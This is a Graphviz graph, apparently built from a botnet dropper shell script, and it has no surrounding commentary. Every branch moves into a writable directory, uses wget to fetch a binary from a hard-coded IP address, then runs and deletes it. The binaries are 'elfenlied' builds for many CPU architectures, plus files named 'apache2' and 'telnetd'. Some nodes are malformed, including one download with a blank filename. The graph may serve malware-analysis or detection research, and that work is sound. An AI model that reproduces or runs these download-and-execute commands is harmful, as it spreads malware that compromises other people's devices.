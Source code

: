 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://94.177.218.245/elfenliedmips "];
10 -> 12 [label=";,"];
12 [label="chmod +x elfenliedmips "];
12 -> 14 [label=";,"];
14 [label="./elfenliedmips "];
14 -> 16 [label=";,"];
16 [label="rm -rf elfenliedmips "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://94.177.218.245/elfenliedmipsel "];
28 -> 30 [label=";,"];
30 [label="chmod +x elfenliedmipsel "];
30 -> 32 [label=";,"];
32 [label="./elfenliedmipsel "];
32 -> 34 [label=";,"];
34 [label="rm -rf elfenliedmipsel "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://94.177.218.245/elfenliedsh4 "];
46 -> 48 [label=";,"];
48 [label="chmod +x elfenliedsh4 "];
48 -> 50 [label=";,"];
50 [label="./elfenliedsh4 "];
50 -> 52 [label=";,"];
52 [label="rm -rf elfenliedsh4 "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://94.177.218.245/elfenliedx86 "];
64 -> 66 [label=";,"];
66 [label="chmod +x elfenliedx86 "];
66 -> 68 [label=";,"];
68 [label="./elfenliedx86 "];
68 -> 70 [label=";,"];
70 [label="rm -rf elfenliedx86 "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://94.177.218.245/elfenliedarmv6l "];
82 -> 84 [label=";,"];
84 [label="chmod +x elfenliedarmv6l "];
84 -> 86 [label=";,"];
86 [label="./elfenliedarmv6l "];
86 -> 88 [label=";,"];
88 [label="rm -rf elfenliedarmv6l "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://94.177.218.245/elfenliedi686 "];
100 -> 102 [label=";,"];
102 [label="chmod +x elfenliedi686 "];
102 -> 104 [label=";,"];
104 [label="./elfenliedi686 "];
104 -> 106 [label=";,"];
106 [label="rm -rf elfenliedi686 "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://94.177.218.245/elfenliedppc "];
118 -> 120 [label=";,"];
120 [label="chmod +x elfenliedppc "];
120 -> 122 [label=";,"];
122 [label="./elfenliedppc "];
122 -> 124 [label=";,"];
124 [label="rm -rf elfenliedppc "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://94.177.218.245/elfenliedi586 "];
136 -> 138 [label=";,"];
138 [label="chmod +x elfenliedi586 "];
138 -> 140 [label=";,"];
140 [label="./elfenliedi586 "];
140 -> 142 [label=";,"];
142 [label="rm -rf elfenliedi586 "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://94.177.218.245/elfenliedm68k "];
154 -> 156 [label=";,"];
156 [label="chmod +x elfenliedm68k "];
156 -> 158 [label=";,"];
158 [label="./elfenliedm68k "];
158 -> 160 [label=";,"];
160 [label="rm -rf elfenliedm68k "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://94.177.218.245/elfenliedsparc "];
172 -> 174 [label=";,"];
174 [label="chmod +x elfenliedsparc "];
174 -> 176 [label=";,"];
176 [label="./elfenliedsparc "];
176 -> 178 [label=";,"];
178 [label="rm -rf elfenliedsparc "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://94.177.218.245/  "];
190 -> 192 [label=";,"];
192 [label="chmod +x   "];
192 -> 194 [label=";,"];
194 [label="./  "];
194 -> 196 [label=";,"];
196 [label="rm -rf   "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://94.177.218.245/apache2 "];
208 -> 210 [label=";,"];
210 [label="chmod +x apache2 "];
210 -> 212 [label=";,"];
212 [label="./apache2 "];
212 -> 214 [label=";,"];
214 [label="rm -rf apache2 "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://94.177.218.245/telnetd "];
226 -> 228 [label=";,"];
228 [label="chmod +x telnetd "];
228 -> 230 [label=";,"];
230 [label="./telnetd "];
230 -> 231 [label=";,"];
}
